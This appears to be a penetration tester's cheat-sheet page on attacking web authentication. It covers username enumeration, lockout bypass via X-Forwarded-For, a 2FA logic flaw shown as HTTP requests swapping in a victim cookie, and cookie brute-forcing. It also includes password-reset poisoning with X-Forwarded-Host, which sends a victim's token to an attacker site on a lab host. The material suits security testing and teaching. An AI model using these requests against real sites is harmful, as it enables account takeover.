 ```yaml
---
title: "Authentication"
weight: 2
---
```


# Authentication

## Usernames enumeration

Test in every features that interact with user account. E.g. login, password recovery.

**Default username**

```sh
admin
administrator
firstname.lastname@somecompany.com
```

***

**Registration form**

Create account and see if there's error like "account already exists".

***

**Comparing responses**

Use a valid user and an invalid user (and incorrect password). One character out of place makes the messages distinct, even if not visible on the page.

{{< hint style=tips >}}
**Tip**: Use "Grep - match" in Burp Intruder to fetch the error message
{{< /hint >}}

***

**Account locking**

Try 3/5 login. If the account is locked, it could mean that there is.

***

**Response times**

A website may only check the password if the username is valid. So, entering an excessively long password causes a noticeable delay.

## Passwords

[password-cracking.md](../../iv-miscellaneous/password-cracking.md "mention")

## Account locking

**Guess password with locked account**&#x20;

With your account locked, send a request with an incorrect password and another with a correct password. Is the response different?

***

**IP blocked bypass**

* The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)&#x20;
* Try to bypass by adding `X-Forwarded-For` header

***

**With password change**

See if you can change the password of an arbitrary user. E.g. look for a hidden username parameter (control it). Brute-force password when you enter your current password.

{{< hint style=tips >}}
**Tip**: use your account and notice different behavior.

* current password: wrong, new-password-1=XXX, new-password-2=XXX
* current password: wrong, new-password-1=XXX, new-password-2=YYY
* current password: \<right>, new-password-1=XXX, new-password-2=XXX
* current password: \<right>, new-password-1=XXX, new-password-2=YYY
{{< /hint >}}

## 2FA

* **Brute-force OTP**
* **Bypassing two-factor authentication**&#x20;

Check if you can directly skip to "logged-in" pages.

* **Flawed logic**

```http
# 1 step - (REQUEST) Normal login with attacker account
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
[...]

username=attacker&password=qwerty
```

```http
# 1 step - (RESPONSE) The server sets cookie
HTTP/1.1 200 OK
Set-Cookie: account=attacker
```

```http
# 2 step - request two-factor
GET /login-steps/second HTTP/1.1
Cookie: account=attacker
```

```http
# 3 step - submit the two-factor code with victim cookie
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
[...]

verification-code=123456
```

## Remember me option

* **Study your cookie and deduce how it is generated -** Sometimes this cookie is hashed or encoded (e.g. base64)
* **Brute-force other users' cookies to gain access to their accounts**

## Password reset

**Control username parameter**

After you receive an email with the URL to reset your password, see if you can control username parameter.

```http
POST /forgot-pwd?temp-token=xxx HTTP/2
[...]

user=<victim>&new-pwd-1=<whatever>&new-pwd-2=<whatever>&token=xxx
```

***

**Resetting passwords using a URL (static token)**

Poor implementation can use guessable parameter: E.g. `http://vulnerable-website.com/reset-password?user=victim-user`

***

**Steal another user's token (for dynamic token)**

Add the `X-Forwarded-Host` header and see if it allows you to control the link generated by the app. This way, you can insert your website's URL so that when the user clicks on the link, they are directed to `http://your.website.com/reset-password?token=impredictabletoken`.

```http
POST /forgot-password HTTP/2
Host: 0ad400fb039bb5ea816cac4d00be00a8.web-security-academy.net
X-Forwarded-Host: your.website.com

username=lebron
```
